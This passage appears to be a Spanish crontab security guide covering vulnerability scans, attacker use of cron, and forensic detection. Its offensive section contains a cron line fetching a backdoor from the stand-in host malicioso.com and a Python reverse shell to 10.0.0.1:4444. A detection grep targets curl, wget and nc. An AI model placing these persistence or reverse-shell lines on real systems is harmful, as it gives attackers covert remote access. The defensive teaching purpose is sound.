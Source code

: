 - **Escaneos de vulnerabilidad programados**
  ```bash
  # Escaneo semanal de vulnerabilidades
  0 3 * * 0 /usr/local/bin/nmap -sV --script vuln 192.168.1.0/24 -oN /var/log/nmap_scan_$(date +\%Y\%m\%d).log
  ```

### Vectores Ofensivos

> [!warning] Solo con fines educativos
> Esta información se proporciona únicamente para comprender cómo los atacantes usan crontab y mejorar las defensas.

- **Persistencia**
  ```bash
  # Reinstalación de backdoor cada minuto si se elimina
  * * * * * test -f /tmp/.backdoor || curl -s http://malicioso.com/backdoor -o /tmp/.backdoor && chmod +x /tmp/.backdoor
  ```

- **Reverse shells programadas**
  ```bash
  # Conexión a C2 cada 30 minutos durante horario laboral
  */30 9-17 * * 1-5 /usr/bin/python -c 'import socket,subprocess;s=socket.socket();s.connect(("10.0.0.1",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
  ```

### Análisis Forense y Detección

- **Detección de crontabs sospechosos**
  ```bash
  # Buscar entradas de crontab que contengan direcciones IP o dominios sospechosos
  for user in $(cut -f1 -d: /etc/passwd); do crontab -u $user -l 2>/dev/null | grep -E "(curl|wget|nc|bash|sh).*([0-9]{1,3}\.){3}[0-9]{1,3}"; done
  ```

- **Monitoreo de cambios en crontab**
  ```bash
  # Guardar hash de crontabs cada hora para detectar cambios
  0 * * * * find /var/spool/cron/ -type f -exec md5sum {} \; > /var/log/crontab_hashes_$(date +\%H).log
  ```

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: Monitoreo de logs con notificación

```bash
# Buscar intentos de acceso fallidos cada 10 minutos y enviar correo si se encuentran
*/10 * * * * grep "Failed password" /var/log/auth.log | tail -n 5 > /tmp/failed_logins && [ -s /tmp/failed_logins ] && mail -s "Intentos de acceso fallidos detectados" admin@ejemplo.com < /tmp/failed_logins
```
